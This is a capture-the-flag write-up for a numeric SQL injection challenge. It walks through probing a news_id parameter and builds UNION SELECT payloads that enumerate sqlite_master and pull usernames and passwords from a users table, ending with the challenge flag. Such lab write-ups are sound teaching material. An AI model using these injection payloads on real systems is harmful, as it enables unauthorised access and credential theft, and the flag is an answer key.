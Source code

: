 # SQL injection - Numeric

**Point:** 35 Points

**Description:** Retrieve the administrator password.

## Solution:

Use check-payload `1'` in form: **Search**  and **Login** to see whether SQLi is possible or not. But it's not available.

Back to **Home** page. We notice that if we get into any **links**. Our URL look likes this `?action=news&news_id=3`, it contains 2 parameters `action` and `news_id`, check it with `'1` and we realize the SQLi point is in `news_id`

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/160247892-2628a705-59f1-4758-aab1-45cf22cfb1a2.png"> </p>

An error 's sent back. Now try to input:
```
123' or 1=1 --
```

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/160248089-b9f681d5-e785-41e4-88b1-9ca9d33ef814.png"> </p>

There's something error with backslash symbols `\`. How odd ? We didn't input any characters like that. The title of the challenge is `Numeric`, this make me think that maybe the server has a **sanitization** in our input and replace all `"` and `'` respectively with `\"` and `\'`. So we don't even need comment out symbols `--` to escape the string.

Try to input only number and append our command like: 

```
123 order by 1 
```

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/160248539-306078db-4b82-40a0-b26c-66bd8a193123.png"> </p>

No error. Determine the number of columns return by taking advantage of `UNION`. 

```
123 union select 1 
```

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/160248574-efcc3704-92ee-404c-82c6-51d935b01c5c.png"> </p>

Add 1 more columns for each testing until it's worked. The final checking payload is: 

```
123 union select 1, 2, 3 
```

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/160248000-cca3c1d3-61eb-449e-8c87-23ecd0b8b1cc.png"> </p>


OK. That's look good ! With this, try to get the information from **system database**. In SQLite, there's a system table with 5 columns `sqlite_master(type, name, tbl_name, rootpage, sql)`. We can choose 2 columns that we're interested in. Try:

``` 
123 union select type, name, sql from sqlite_master
```

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/160248613-8cc242ed-5ed1-4109-817b-6f10a60462dd.png"> </p>

Well, a `users` table. This gotta be interesting. Get information with 3 field `username`, `password` and `year` in `user` table. Payload:

```
123 union select username, password, year from users 
```

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/160248651-eb1df667-6128-4553-bc25-e5064c1a7632.png"> </p>

No **username** appears to identify the **admin**. With a such few result, try to submit each password (The first one is correct). Or we realize that only 2nd and 3rd columns are displayed. Final payload:

```
123 union select 1, username, password from users
```

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/160249017-e1b16dbb-2dc5-45ec-ab93-fc73ead3c606.png"> </p>


Flag: **aTlkJYLjcbLmue3**



